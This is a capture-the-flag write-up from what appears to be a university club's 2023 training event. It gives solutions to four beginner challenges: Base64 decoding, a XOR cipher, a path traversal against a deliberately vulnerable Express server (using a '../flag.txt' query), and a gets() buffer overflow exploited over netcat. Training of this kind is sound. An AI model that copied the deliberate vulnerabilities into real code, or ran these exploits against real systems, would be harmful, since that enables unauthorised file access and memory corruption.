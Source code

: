 # Training 2023
https://neuland-ingolstadt.de/stand

---

## The Mensa (stego)

`YXluYXF7YTA3LTBhMWwtN3UzLXozYTU0LTE1LXAwMHgxYTktMjNwMWMzNS11MzIzfQ==`

#### Solution

> Decode the Base64 string however you like

```console
echo 'YXluYXF7YTA3LTBhMWwtN3UzLXozYTU0LTE1LXAwMHgxYTktMjNwMWMzNS11MzIzfQ==' | base64 -d
```

`aynaq{a07-0a1l-7u3-z3a54-15-p00x1a9-23p1c35-u323}`

## THI is the Key (crypto)

`:$(:,2g>zf1dly~y+y!&~a5`

#### Solution

> According to the task, it can be assumed, we got a XOR-Cipher with "THI" as the key. Let's try that.
> Im using [Cyberchef](https://gchq.github.io/CyberChef/) for that task:

`nland{3v32y-817-c0un75}`

## Web Path Traversal (web)

> Exploit at http://ctf.informatik.sexy:12903

```js
const fs = require('fs/promises');
const express = require('express');
const app = express();

// in many classic CTF formats there exists a file flag.txt
// which contains the flag you are looking for

app.get('/', async (req, res) => {
  const data = await fs.readFile('./index.html');
  res.end(data);
});
app.get('/blog', async (req, res) => {
  try {
    const name = req.query.name.toLowerCase();
    const data = await fs.readFile('./facts/' + name);
    res.end(data);
  } catch (e) {
    res.end(e.toString());
  }
});

app.listen(3000);
```

#### Solution

> As we see in the code, the query parameter `name` is directly used as input to pull files from the server's local directory `./facts` without any obstructive input sanitization.
> Let's assume the directorys absolute path: `/var/www/html/facts` and let the file name be `flag.txt`. To perform path traversal we can now use `../` to go to the parent directory from our current working directory. With little to no effort we got the flag:
> `{URL}/blog?name=../flag.txt`

`nland{d1d_w1nd15ch_734ch_y0u_7h15?}`

## Buffer Overflow (rev / pwn)

> Exploit at `nc ctf.informatik.sexy 12902`

```c
#include <stdio.h>
#include <string.h>
#include "secrets.h"

// the following are defined in secrets.h:
// #define SECRET_PASSWORD "..."
// #define SECRET_FLAG "..."

int main() {
  char password[16];
  int valid = 0;

  // make sure bytes sent dont get stuck in a buffer
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Enter password:\n");
  gets(password);

  if(strcmp(password, SECRET_PASSWORD) == 0)
    valid = 1;

  if(valid)
    printf("Welcome back! Here is your flag: %s\n", SECRET_FLAG);
  else
    printf("Wrong!\n");

  return 0;
}
```

#### Solution

> After looking through the code, I noticed that a very unsecure function `gets()` is used.
> [Click here](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) to find out why exactly this function is considered dangerous to use.
> Let's spam some a's:

```console
nc ctf.informatik.sexy 12902
Enter password:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

> Nice! We got the flag:
> `nflag{0verf10wing_th1s_g3t5}`
